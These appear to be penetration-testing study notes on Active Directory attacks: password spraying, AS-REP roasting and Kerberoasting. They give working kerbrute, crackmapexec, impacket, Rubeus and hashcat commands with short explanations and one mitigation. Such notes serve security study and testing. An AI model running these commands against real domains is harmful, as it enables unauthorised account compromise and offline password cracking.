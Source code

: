 ##### password spraying
- warning: **brute force can block accounts**
    * use `net accounts` to show the lockout policies
- via kerberos
    * fast
    * `kerbrute passwordspray -d corp.com --dc $kdcIp usernames.txt "Company123!"`
- via smb
    * slowest and noisy
    * `crackmapexec smb $domainJoinedMachine -u users.txt -p 'Company123!' -d corp.com --continue-on-success`
- via authenticated ldap
    * slow
    * https://web.archive.org/web/20220225190046/https://github.com/ZilentJack/Spray-Passwords/blob/master/Spray-Passwords.ps1
    * `.\Spray-Passwords.ps1 -Pass Company123! -Admin`

##### AS-REP roasting
- kerberos preauthentication is the first step of the authentication process (when the client send the AS-REQ)
- preauthentication is enabled by default
- if preauthentication is disabled for an user, anyone can send an AS-REQ on behalf of this user, and get a AS-REP
- AS-REP contains a session key (encrypted with the user hash) and a TGT ('signed' with krbtgt hash)
    - ?since it is required to have the session key in plaintext to generate a TGS, the TGT cannot be used to pass the ticket?
- However, the session key can be used as input to perform an **offline bruteforce attack**, aiming to discover the user password
- 1) Get the AS-REP
    * **having a user list**
        * impacket: `impacket-GetNPUsers -dc-ip $ip -request -outputfile asrep.hashes -usersfile users.txt corp.com/`
    * **with credentials**
        * powerview: `Get-DomainUser -PreauthNotRequired`
        * rubeus: `rubeus.exe asreproast /nowrap /outfile:asrep.hashes` 
        * impacket: `impacket-GetNPUsers -dc-ip $ip -request -outputfile asrep.hashes corp.com/knownuser`
- 2) Crack the hash: 
    * `hashcat -m 18200 asrep.hashes rockyou.txt -r best64.rule`
- Targeted AS-REP Roasting: with GenericWrite or GenericAll permissions on another AD user account, instead of just change their passwords, it is possible to modify the User Account Control value of the user to not require Kerberos preauthentication and then do the AS-REP roasting. It should be reversed after the hash is obtained.
- Mitigation: Enable preauth. If it is really necessary keep it disabled, at least the affected accounts should use very strong passwords, to let password cracking attacks impracticable.

##### TGS-REP Roasting (Kerberoasting)
- When a domain user requests a service ticket (TGS) for any service, the KDC generates a TGS without any permissions check, because the user and group memberships are added in the TGS. 
- So, the service receiving the TGS ticket can check the users permissions by itself.
- But yet it is possible to get the TGS, and it is encrypted with the hash of the service account
- It allows an offline bruteforce attack be performed, known as **Kerberoasting**, but just if the service **does not** run in the context of a **machine account**, a managed service account, or a group-managed service account, where the password is randomly generated, complex, and too long to be cracked.
- 1) Search SPNs (accounts for service) and get TGS_REP of them
    * impacket: `impacket-GetUserSPNs -dc-ip $ip -request -outputfile tgsrep.hashes corp.com/knownuser`
    * rubeus: `rubeus.exe kerberoast /outfile:tgsrep.hashes`
- 2) Crack the hash
    * `hashcat -m 13100 tgsrep.hashes rockyou.txt -r best64.rule`
- After a kerberoasting attack, create **silver tickets** can be useful
- Unauthenticated Kerberoasting: If there is a user with preauth disabled, it can be possible to use a list to check SPN accounts
    - check parameter -no-preauth in GetUserSPN.py https://tools.thehacker.recipes/impacket/examples/getuserspns.py (-userfile should contain a list of accounts to be checked)